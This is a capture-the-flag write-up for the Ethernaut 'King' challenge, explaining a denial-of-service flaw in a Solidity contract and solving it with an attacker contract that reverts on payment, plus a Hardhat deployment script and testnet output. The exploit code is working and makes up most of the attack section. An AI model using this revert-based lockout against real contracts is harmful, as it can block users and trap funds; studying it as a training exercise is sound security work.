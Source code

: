 ```yaml
---
title: Ethernaut \#09 King
tags: [ethernaut]
style: border
color: primary
description: Ethernaut King challenge writeup
---
```


## King

### Challenge

The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

### Background

This challenge confused me for a moment. I had a rough idea of re-entrancy attacks so I though this might be some type of a re-entrancy attack. I started checking what I could do if I control the transfer function, but looking at the next challenge name (`re-entrancy`) I thought that this is most likely not the type of attack I'm looking at. It is however a simpler version of it. The reason I was confused however, is that the challenge was not so clear to me. Usually we are after getting ownership of funds out of the contract, now I just needed to stay the king for ever.

So what is important to note here is that an smart contract can run code when funds are being transfered to it.

### Attack

In order to stay king, we just need to make sure that once we become king, nobody can execute the receive function without a revert. This can be simply achieved by making a contract we controll the king and force `revert`ing when someone transfers funds to the contract. If we needed to we could also have some logic to enable or disable this functionality but there is not need for this for the particular challange. Also keep in mind that a simple transfer does not have enough gas to pull this off, so a call with a value needs to be used when passing funds to the `King` contract. 

* Create a contract that can send funds to the `King` contract using `call` and reverts when receiving funds
* Send enought funds to the `King` contract to make the attacker contract king

#### KingSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

contract KingSolve {

    constructor() public {}
    
    function becomeKing (address payable _king) public payable {
        // _king.call.value(msg.value)("");
        _king.call{value: msg.value}("");
    }

    receive() external payable {
        revert();
    }
}
```

#### king-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    kingAddress = "0xaa0130693AbE4a6a478224F96747dD98Ba2c5740";
    contract = await ethers.getContractAt("King", kingAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    KingSolve = await ethers.getContractFactory("KingSolve");
    kingSolve = await KingSolve.deploy();
    await kingSolve.deployed();

    console.log("Level address: " + contract.address)
    console.log("Contract King: " + await contract._king())

    // get current price
    prize = await contract.prize()
    console.log("Current Prize: " + prize)

    // send funds buy calling selfdestruct
    tx = await kingSolve.connect(account).becomeKing(contract.address, { value: prize })
    receipt = await tx.wait()

    console.log("Contract King: " + await contract._king())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/king-solve.js --network rinkeby
Level address: 0xaa0130693AbE4a6a478224F96747dD98Ba2c5740
Contract King: 0x43BA674B4fbb8B157b7441C2187bCdD2cdF84FD5
Current Prize: 1000000000000000
Contract King: 0x868A70Ca70a8089b979051Efc3e7e649DB1bdC82
```

### Success Message

Most of Ethernaut's levels try to expose (in an oversimplified form of course) something that actually happened — a real hack or a real bug.

In this case, see: [King of the Ether](https://www.kingoftheether.com/thrones/kingoftheether/index.html) and [King of the Ether Postmortem](http://www.kingoftheether.com/postmortem.html).
